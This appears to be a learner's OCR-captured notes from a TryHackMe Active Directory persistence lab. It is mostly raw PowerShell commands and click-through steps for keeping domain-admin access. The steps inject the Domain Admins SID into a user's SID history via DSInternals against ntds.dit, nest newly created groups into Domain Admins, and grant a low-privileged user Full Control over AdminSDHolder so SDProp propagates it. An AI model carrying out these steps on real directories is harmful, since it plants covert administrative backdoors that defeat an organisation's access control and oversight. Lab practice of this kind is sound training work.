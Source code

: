 Get-ADGroup "Domain Admins"
add group sid to user account

mimikatz can add sid history
https://github.com/MichaelGrafnetter/DSInternals

Stop-Service -Name ntds -force

Add-ADDBSidHistory -SamAccountName tony.wilson -SidHistory S-1-5-21-3885271727-2693558621-2658995185-512  -DatabasePath C:\Windows\NTDS\ntds.dit 

Start-Service -Name ntds  



# Persistence through Group Membership 

People->IT Organisational Unit (OU)

New-ADGroup -Path "OU=IT,OU=People,DC=ZA,DC=TRYHACKME,DC=LOC" -Name "<username> Net Group 1" -SamAccountName "<username>_nestgroup1" -DisplayName "<username> Nest Group 1" -GroupScope Global -GroupCategory Security

 People->Sales OU and add our previous group as a member:
New-ADGroup -Path "OU=SALES,OU=People,DC=ZA,DC=TRYHACKME,DC=LOC" -Name "<username> Net Group 2" -SamAccountName "<username>_nestgroup2" -DisplayName "<username> Nest Group 2" -GroupScope Global -GroupCategory Security 

Add-ADGroupMember -Identity "<username>_nestgroup2" -Members "<username>_nestgroup1"

Add-ADGroupMember -Identity "Domain Admins" -Members "<username>_nestgroup5"



# Persistence through ACLs

Persisting through AD Group Templates
AdminSDHolder container  container exists in every AD domain, and its Access Control List (ACL) is used as a template to copy permissions to all protected groups. 

Domain Admins, Administrators, Enterprise Admins, and Schema Admins.

 process called SDProp takes the ACL of the AdminSDHolder container and applies it to all protected groups every 60 minutes


 runas /netonly /user:Administrator cmd.exe



Once you have an MMC window, add the Users and Groups Snap-in (File->Add Snap-In->Active Directory Users and Groups). Make sure to enable Advanced Features (View->Advanced Features). We can find the AdminSDHolder group under Domain->System:


Navigate to the Security of the group (Right-click->Properties->Security):

low-privileged user and grant Full Control:

    Click Add.
    Search for your low-privileged username and click Check Names.
    Click OK.
    Click Allow on Full Control.
    Click Apply.
    Click OK.
